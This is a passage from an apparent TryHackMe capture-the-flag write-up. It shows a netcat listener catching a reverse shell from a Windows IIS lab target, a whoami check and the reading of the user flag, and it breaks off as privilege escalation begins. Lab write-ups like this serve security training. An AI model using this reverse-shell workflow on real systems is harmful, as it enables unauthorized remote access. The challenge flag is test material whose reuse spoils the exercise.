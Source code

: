 ```text
root@kali:/home/kali/thm/relevant# nc -nlvp 1337
listening on [any] 1337 ...
```

Now browse to the file:

![relevant-revshell](/assets/images/2021-03-01-23-06-21.png)

## User Flag

Switch back to Kali, and we have a connection:

```text
root@kali:/home/kali/thm/relevant# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.218.231] 49839
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\winsows\system32\inetsrv>
```

Check who we are connected as:

```text
c:\winsows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Let's see if we can get to the user flag:

```text
c:\>cd c:\Users\Bob\Desktop
c:\Users\Bob\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5
 Directory of c:\Users\Bob\Desktop

03/01/2021  10:54 PM    <DIR>          .
03/01/2021  10:54 PM    <DIR>          ..
03/01/2021  10:54 AM                35 user.txt

c:\Users\Bob\Desktop>type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Root Flag

That worked. On to root, let's check our privileges:
